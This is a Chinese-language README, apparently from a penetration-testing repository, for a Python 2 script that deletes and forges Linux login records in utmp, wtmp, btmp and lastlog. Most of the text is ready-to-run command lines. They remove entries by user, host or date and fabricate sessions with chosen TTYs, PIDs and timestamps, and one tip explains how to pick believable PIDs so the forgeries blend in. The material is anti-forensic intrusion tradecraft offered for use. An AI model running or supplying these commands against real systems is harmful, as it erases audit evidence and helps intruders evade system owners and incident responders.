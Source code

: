 ### 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于https://www.freebuf.com/articles/system/141474.html ，但是原链接失效，故在此处备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf)
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

### 删除日志
1. 删除utmp记录，将自己从w或者who输出中隐藏
python clean --mode delete --type utmp --user root //删除用户为root的用户记录
python clean --mode delete --type utmp --user root --host "58.47.251.255" //删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
python clean --mode delete --type wtmp --user root --host "111.30.32.213" //删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
python clean --mode delete --type btmp --user root --host "172.16.50.156" //删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
python clean --mode delete --type lastlog --host "172.16.50.1" //删除来源host的用户登录记录
python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" //删除登录时间为2017-8-2 22:46:34的用户登录记录

### 伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" //伪造用户为nobody的用户记录
这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1"
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" //伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" //伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录
